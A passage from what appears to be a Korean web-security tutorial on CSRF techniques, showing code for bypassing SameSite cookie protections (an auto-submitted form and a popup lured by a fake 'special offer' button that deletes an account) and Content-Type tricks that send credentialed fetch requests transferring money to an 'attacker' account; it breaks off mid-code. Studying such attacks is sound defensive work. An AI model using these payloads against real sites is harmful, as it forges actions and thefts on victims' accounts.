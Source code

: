 ### 3.2. SameSite 쿠키 우회

#### 3.2.1. 서브도메인을 이용한 우회
```html


<form action="http://target.com/sensitive_action" method="GET">
    <input type="hidden" name="action" value="malicious">
</form>
<script>
    // GET 요청은 SameSite=Lax에서도 허용됨
    document.forms[0].submit();
</script>
```

#### 3.2.2. 팝업 윈도우를 이용한 우회
```javascript
// SameSite=None 쿠키가 있는 경우
function openAttackWindow() {
    var attackWindow = window.open('http://target.com/login', 'attack', 'width=1,height=1');
    
    setTimeout(function() {
        // 로그인 후 공격 실행
        attackWindow.location.href = 'http://target.com/delete_account?confirm=yes';
    }, 3000);
}

// 사용자 클릭 유도
document.body.innerHTML = '<button onclick="openAttackWindow()">특별 혜택 받기!</button>';
```

### 3.3. Content-Type 우회

#### 3.3.1. Simple Request 악용
```javascript
// CORS preflight 없는 요청 타입 사용
fetch('http://target.com/api/transfer', {
    method: 'POST',
    headers: {
        'Content-Type': 'text/plain'  // Simple request
    },
    body: 'to_account=attacker&amount=10000',
    credentials: 'include'
});

// application/x-www-form-urlencoded 사용
fetch('http://target.com/api/action', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({

